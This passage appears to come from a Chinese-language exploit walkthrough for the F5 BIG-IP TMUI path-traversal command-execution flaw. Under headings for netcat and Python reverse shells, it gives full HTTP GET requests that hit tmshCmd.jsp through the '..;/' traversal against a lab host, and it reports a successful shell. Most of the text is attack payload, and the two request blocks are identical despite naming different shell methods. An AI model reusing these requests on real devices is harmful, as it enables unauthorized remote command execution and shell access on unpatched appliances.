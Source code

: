 ![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHuC965DAXwDYC4grG389cJ723fcdwdKSkkR98u4lQOWP5tQ1eKxpAVw/640?wx_fmt=jpeg "")  
  
b、nc反弹shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHB2HH68QoGiahylgQXWTyxCialyvaLxhqNdaj4N5weoB1qdpqHRR0ZlfQ/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/1.txt HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```  
  
成功反弹shell：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHZRnxiaFlZ65t4uzagicLteAKmr9ibbee2dgibE3BuRo8khQboiaDyDt0J1A/640?wx_fmt=jpeg "")  
  
c、python反弹shell回来  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHltCPewuNdicJGAJ9gQ2jO4abEzSECFfemfVWgTdPHAjDQAFm9ZDDOzA/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/1.txt HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F

```  
  